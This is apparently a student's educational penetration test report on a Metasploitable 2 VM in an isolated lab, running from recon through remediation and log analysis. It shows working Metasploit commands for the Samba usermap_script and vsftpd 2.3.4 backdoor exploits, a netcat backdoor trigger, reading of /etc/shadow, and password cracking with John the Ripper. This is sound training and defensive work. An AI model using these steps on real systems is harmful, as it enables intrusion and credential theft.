










# Penetration Test Report — Metasploitable 2
**Prepared by:** cambe01 
**Date:** 08/06/2026  
**Classification:** Personal / Educational Use Only  
**Lab Environment:** Oracle VirtualBox — Isolated Internal Network  

---

## Table of Contents
1. [Objective](#1-objective)
2. [Lab Environment](#2-lab-environment)
3. [Tools Used](#3-tools-used)
4. [Reconnaissance](#4-reconnaissance)
5. [Vulnerability Findings](#5-vulnerability-findings)
6. [Exploitation — Samba usermap_script](#6-exploitation--samba-usermap_script)
7. [Exploitation — vsftpd 2.3.4 Backdoor](#7-exploitation--vsftpd-234-backdoor)
8. [Post-Exploitation Analysis](#8-post-exploitation-analysis)
9. [Credential Analysis](#9-credential-analysis)
10. [Detection & Log Analysis](#10-detection--log-analysis)
11. [Remediation](#11-remediation)
12. [Risk Summary](#12-risk-summary)
13. [Conclusion](#13-conclusion)
14. [References](#14-references)

---

## 1. Objective

The purpose of this assessment was to conduct a structured penetration test against a deliberately vulnerable virtual machine (Metasploitable 2) within a fully isolated home lab environment. The objectives were to:

- Identify vulnerabilities through systematic network reconnaissance
- Exploit identified vulnerabilities using industry-standard tools
- Perform post-exploitation analysis to demonstrate the real-world impact of successful attacks
- Analyse system logs from a defender's perspective to identify indicators of compromise
- Apply and verify remediations to restore a secure state
- Document all findings to a professional penetration testing report standard

This project was self-initiated as part of preparation for a career in cybersecurity, specifically to develop practical offensive and defensive security skills.

---

## 2. Lab Environment

| Component | Details |
|---|---|
| Virtualisation Platform | Oracle VirtualBox |
| Attacker Machine | Kali Linux (rolling release) |
| Target Machine | Metasploitable 2 |
| Network Type | VirtualBox Internal Network (fully isolated) |
| Attacker IP | 192.168.56.20 |
| Target IP | 192.168.56.10 |

Both machines were connected via a VirtualBox Internal Network adapter, providing complete network isolation from the host machine and the internet. Static IP addresses were manually assigned to each machine to ensure reliable connectivity throughout the assessment.

---

## 3. Tools Used

| Tool | Version | Purpose |
|---|---|---|
| nmap | 7.98 | Network scanning, port enumeration, service and OS detection |
| Metasploit Framework | Latest | Vulnerability exploitation and session management |
| John the Ripper | Latest | Password hash cracking and credential analysis |
| iptables | Built-in | Firewall rule configuration for remediation phase |
| Netcat (nc) | Built-in | Manual exploit triggering and connection testing |
| Kali Linux CLI | Rolling | Post-exploitation, log analysis, system enumeration |

---

## 4. Reconnaissance

### 4.1 Network Scan

An nmap scan was performed against the target machine to enumerate all open ports, running services, and the operating system:

```bash
nmap -sV -O 192.168.56.10
```

**Screenshot:**  


### 4.2 Scan Results

The scan identified 23 open ports running a wide range of services. Key findings are summarised below:

| Port | State | Service | Version |
|---|---|---|---|
| 21/tcp | open | ftp | vsftpd 2.3.4 |
| 22/tcp | open | ssh | OpenSSH 4.7p1 |
| 23/tcp | open | telnet | Linux telnetd |
| 25/tcp | open | smtp | Postfix smtpd |
| 80/tcp | open | http | Apache httpd 2.2.8 |
| 139/tcp | open | netbios-ssn | Samba smbd 3.X |
| 445/tcp | open | netbios-ssn | Samba smbd 3.X |
| 1524/tcp | open | bindshell | Metasploitable root shell |
| 3306/tcp | open | mysql | MySQL 5.0.51a |
| 5900/tcp | open | vnc | VNC protocol 3.3 |

### 4.3 Reconnaissance Observations

The scan results revealed a heavily misconfigured system with numerous outdated and vulnerable services exposed on the network. Notable observations include:

- **vsftpd 2.3.4** is running on port 21 — this version contains a known backdoor (CVE-2011-2523)
- **Samba 3.X** is running on ports 139 and 445 — this version is vulnerable to the usermap_script exploit (CVE-2007-2447)
- **Telnet** is enabled on port 23 — this transmits all data including credentials in plaintext
- **MySQL** is exposed on port 3306 — database services should never be publicly accessible
- **VNC** is running on port 5900 with no encryption
- Port 1524 explicitly identifies itself as a **Metasploitable root shell** an intentional backdoor in the lab environment

---

## 5. Vulnerability Findings

| # | Vulnerability | CVE | Port | Risk Rating | CVSS Score |
|---|---|---|---|---|---|
| 1 | Samba usermap_script RCE | CVE-2007-2447 | 445 | 🔴 Critical | 9.3 |
| 2 | vsftpd 2.3.4 Backdoor | CVE-2011-2523 | 21 | 🔴 Critical | 10.0 |
| 3 | Weak Password Storage | N/A | System | 🟠 High | N/A |
| 4 | Telnet Plaintext Protocol | N/A | 23 | 🟠 High | N/A |
| 5 | Outdated OpenSSH 4.7p1 | N/A | 22 | 🟡 Medium | N/A |
| 6 | MySQL Network Exposure | N/A | 3306 | 🟠 High | N/A |
| 7 | Unencrypted VNC | N/A | 5900 | 🟠 High | N/A |

---

## 6. Exploitation — Samba usermap_script

### 6.1 Vulnerability Description

CVE-2007-2447 is a remote code execution vulnerability in Samba versions 3.0.20 through 3.0.25rc3. The vulnerability exists in the MS-RPC functionality and allows an unauthenticated attacker to execute arbitrary commands by sending a crafted username containing shell metacharacters during authentication. This results in the commands being executed with root privileges.

### 6.2 Exploitation Steps

The following Metasploit module was used to exploit this vulnerability:

```bash
msfconsole
use exploit/multi/samba/usermap_script
set RHOSTS 192.168.56.10
set LHOST 192.168.56.20
set payload cmd/unix/reverse
run
```

### 6.3 Result

**Screenshot:**  


The exploit completed successfully, opening a reverse shell with root privileges on the target machine. Running `whoami` confirmed root access had been obtained.

### 6.4 Impact Assessment

Successful exploitation of this vulnerability grants an unauthenticated remote attacker complete root access to the target system. An attacker with root access can read, modify, or delete any file on the system, create new user accounts, install malware, or use the compromised machine as a pivot point to attack other systems on the network.

---

## 7. Exploitation — vsftpd 2.3.4 Backdoor

### 7.1 Vulnerability Description

CVE-2011-2523 relates to a backdoor that was maliciously introduced into the vsftpd 2.3.4 source code in 2011. The backdoor is triggered when a username containing the string `:)` is sent during FTP authentication, which causes the server to open a shell on port 6200. This allows unauthenticated remote code execution with root privileges.

### 7.2 Exploitation Attempt via Metasploit

The following Metasploit module was attempted:

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.56.10
set LHOST 192.168.56.20
run
```

**Result:** The exploit completed but no session was created. This is a known instability with this specific Metasploit module and does not indicate the vulnerability is absent it reflects the fragile nature of the backdoor implementation itself.

### 7.3 Manual Exploitation via Netcat

The backdoor was successfully triggered manually using Netcat, which is a more reliable method for this particular vulnerability:

**Terminal 1 — Listener:**
```bash
nc -lvp 6200
```

**Terminal 2 — Trigger:**
```bash
ftp 192.168.56.10
USER backdoor:)
PASS anything
```

**Result:** The backdoor triggered successfully, with Terminal 1 receiving a root shell connection.

### 7.4 Analytical Note

The failure of the Metasploit module on first attempt and subsequent successful manual exploitation demonstrates an important principle in penetration testing: when automated tools fail, understanding the underlying vulnerability mechanics allows a tester to achieve the same result through manual methods. This highlights why theoretical knowledge of CVEs is as important as tool proficiency.

---

## 8. Post-Exploitation Analysis

Following successful root access via the Samba exploit, the following post-exploitation enumeration was performed to demonstrate the extent of access an attacker would have:

### 8.1 System Information

```bash
whoami        # confirmed: root
id            # uid=0(root) gid=0(root)
uname -a      # kernel version and OS details
hostname      # target machine hostname
```

**Screenshot:**  


### 8.2 User Enumeration

```bash
cat /etc/passwd
```

The passwd file revealed all user accounts configured on the system. This information would allow an attacker to identify target accounts for privilege escalation or lateral movement.

**Screenshot:**  


### 8.3 Sensitive File Access

```bash
cat /etc/shadow
```

As root, the shadow file containing all password hashes was fully readable. This file is normally restricted to the root user only. Access to this file enables offline password cracking attacks.

**Screenshot:**  


### 8.4 Running Processes and Network Services

```bash
ps aux          # all running processes
netstat -tlnp   # all listening network services
```

**Screenshot:**  


---

## 9. Credential Analysis

### 9.1 Hash Extraction

The contents of `/etc/shadow` were copied from the target machine to the Kali attacker machine and saved to a file:

```bash
nano /home/kali/hashes.txt
# (shadow file contents pasted here)
```

### 9.2 Password Cracking with John the Ripper

John the Ripper was used with the rockyou.txt wordlist, one of the most commonly used password dictionaries in security testing:

```bash
john /home/kali/hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

**Screenshot:**  


### 9.3 Results

```bash
john /home/kali/hashes.txt --show
```

**Screenshot:**  


### 9.4 Analysis

Three out of seven password hashes were cracked almost instantly using a standard wordlist attack, with the remaining four requiring the md5crypt-long format process to process. The cracked passwordsa re extremely weak, batman is a common dictionary word, 123456789 is a sequential number string, and service mathces the username exactly.

The speed at which passwords were cracked demonstrates the critical importance of strong password policies. Passwords found in common wordlists can be cracked within seconds regardless of how they are hashed, which is why password length, complexity, and uniqueness are essential security controls.

---

## 10. Detection & Log Analysis

After completing the exploitation phase, the target machine was analysed from a defender's perspective to identify what evidence the attack had left behind.

### 10.1 Authentication Log Analysis

```bash
cat /var/log/auth.log
```

**Screenshot:**  


The authentication log revealed three key indicators of compromise, highlighted above:
Unexpected Connection from Attacker IP:
At 15:29:34, the SSH daemon logged that it did not receive an identification string from 192.168.56.20, the Kali attacker machine. This indicates an unexpected and suspicious inbound connection attempt that did not follow normal SSH behaviour.
Illegal Port Connection:
At 15:29:37, rlogind recorded a connection from 192.168.56.20 on an illegal port. This is direct evidence of the exploit making contact with the target system outside of normal expected traffic patterns. A real security analyst would immediately flag this as a potential intrusion attempt.
Root Session Opened:
At 15:39:01, a CRON session was opened for the root user. Combined with the previous suspicious connections from the attacker IP, this indicates that root level access had been obtained on the system following the exploit, a critical indicator of a successful breach.

### 10.2 Network Connection Analysis

```bash
netstat -an
```

**Screenshot:**  


Netstat analysis revealed multiple suspicious connections between the target machine and the attacker IP 192.168.56.20. Most significantly, an ESTABLISHED connection was visible on port 4444, the default Metasploit reverse shell port, confirming active exploitation was in progress. Previous connections on port 6200 (vsftpd backdoor) and port 1099 showed as CLOSE_WAIT, indicating earlier exploit attempts. Multiple services were also found listening on 0.0.0.0 meaning they were exposed across all network interfaces unnecessarily.

### 10.3 Detection Summary

| Indicator of Compromise | Location | Description |
|---|---|---|
| Unexpected connection from attacker IP | /var/log/auth.log | 192.168.56.20 connected on illegal port at 15:29:37 |
| Root session opened post-exploit | /var/log/auth.log | CRON session opened for root at 15:39:01 |
| Active reverse shell connection | netstat output | ESTABLISHED connection on port 4444 to 192.168.56.20 |
| vsftpd backdoor trigger evidence | netstat output | CLOSE_WAIT connection on port 6200 to 192.168.56.20 |
| Services exposed on all interfaces | netstat output | Ports 21, 23, 445, 6200 listening on 0.0.0.0 |

---

## 11. Remediation

The following remediation steps were applied and verified to ensure the identified vulnerabilities could no longer be exploited:

### 11.1 Disable Vulnerable Services

```bash
# Disable vsftpd
service vsftpd stop

# Disable Samba
service smbd stop
service nmbd stop
```

### 11.2 Apply Firewall Rules

```bash
# Block FTP port
iptables -A INPUT -p tcp --dport 21 -j DROP

# Block Samba ports
iptables -A INPUT -p tcp --dport 445 -j DROP
iptables -A INPUT -p tcp --dport 139 -j DROP

# Block Telnet
iptables -A INPUT -p tcp --dport 23 -j DROP

# Block VNC
iptables -A INPUT -p tcp --dport 5900 -j DROP

# Block exposed MySQL
iptables -A INPUT -p tcp --dport 3306 -j DROP
```

### 11.3 Verify Remediation

The Samba exploit was re-run after applying the above rules to confirm it was no longer effective:

```bash
use exploit/multi/samba/usermap_script
run
```

**Screenshot:**  


An nmap scan was re-run to confirm the ports now showed as filtered:

```bash
nmap -sV 192.168.56.10
```

**Screenshot:**  


### 11.4 Recommended Long-Term Fixes

| Finding | Recommended Fix |
|---|---|
| vsftpd 2.3.4 | Update to a current, supported version or replace with SFTP |
| Samba 3.X | Update to a patched version (3.0.25 or later) |
| Weak passwords | Enforce minimum 12-character passwords with complexity requirements |
| Telnet enabled | Disable telnet entirely — use SSH for all remote access |
| MySQL exposed | Bind MySQL to localhost only (127.0.0.1) in my.cnf |
| Unencrypted VNC | Replace with encrypted remote access solution |
| All services | Implement principle of least privilege — disable all non-essential services |

---

## 12. Risk Summary

| Vulnerability | Risk | Ease of Exploit | Impact | Remediated |
|---|---|---|---|---|
| Samba usermap_script | 🔴 Critical | Easy | Full root access | ✅ Yes |
| vsftpd 2.3.4 Backdoor | 🔴 Critical | Medium | Full root access | ✅ Yes |
| Weak password storage | 🟠 High | Easy (with shadow access) | Full credential compromise | ✅ Yes |
| Telnet exposed | 🟠 High | Easy | Credential interception | ✅ Yes |
| MySQL network exposure | 🟠 High | Medium | Database access | ✅ Yes |
| Unencrypted VNC | 🟠 High | Medium | Remote desktop access | ✅ Yes |
| Outdated OpenSSH | 🟡 Medium | Hard | Potential code execution | ✅ Yes |

---

## 13. Conclusion

This assessment successfully demonstrated the real-world risks posed by unpatched software, misconfigured services, and weak credential policies. Two critical remote code execution vulnerabilities were identified and exploited to gain full root access to the target system, after which sensitive credential data was extracted and cracked using freely available tools.

The exercise highlighted several key lessons directly applicable to a career in cybersecurity:

- Unpatched software remains one of the most exploited attack vectors in real-world incidents
- A single compromised service with sufficient privileges can expose an entire system
- Weak passwords can be cracked in seconds when hash files are obtained — strong password policies are non-negotiable
- Systematic log analysis can reveal clear evidence of intrusion when defenders know what to look for
- Layered defences — patching, firewalling, service hardening, and monitoring — are all necessary components of a robust security posture

The skills developed through this project — network reconnaissance, vulnerability research, exploitation, credential analysis, log analysis, and remediation — align directly with the competencies required in a professional cybersecurity role, particularly within a defence context where the protection of critical systems and infrastructure is paramount.

---

## 14. References

- [CVE-2007-2447 — Samba usermap_script](https://nvd.nist.gov/vuln/detail/CVE-2007-2447)
- [CVE-2011-2523 — vsftpd 2.3.4 Backdoor](https://nvd.nist.gov/vuln/detail/CVE-2011-2523)
- [Metasploit Framework Documentation](https://docs.metasploit.com)
- [Nmap Reference Guide](https://nmap.org/book/man.html)
- [John the Ripper Documentation](https://www.openwall.com/john/)
- [OWASP Top 10](https://owasp.org/www-project-top-ten/)
- [NIST National Vulnerability Database](https://nvd.nist.gov)
- [TryHackMe — Cybersecurity Learning](https://tryhackme.com)

---

*This report was produced for personal educational purposes only. All testing was conducted in a fully isolated virtual lab environment with no impact on real systems or networks.*
